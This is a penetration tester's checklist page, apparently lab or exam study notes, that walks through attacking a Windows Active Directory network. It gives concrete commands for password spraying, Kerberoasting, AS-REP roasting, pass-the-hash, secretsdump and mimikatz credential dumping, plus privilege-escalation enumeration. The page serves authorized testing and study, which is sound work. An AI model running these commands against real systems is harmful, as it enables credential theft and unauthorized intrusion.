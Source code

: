 # Penetration Test Checklist



## Unauthenticated Recon - Domain



* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md)

## Web Application Testing



## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```



## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

##

## Popped a new Shell

####

#### (PWNED) - Dump Secrets

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

## Privilege Escalation - Windows

####

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```



### Manual Enumeration

* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.
* [ ] Check **ALL** privileges "whoami /priv" for potential exploits



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

## Lateral Movement

*
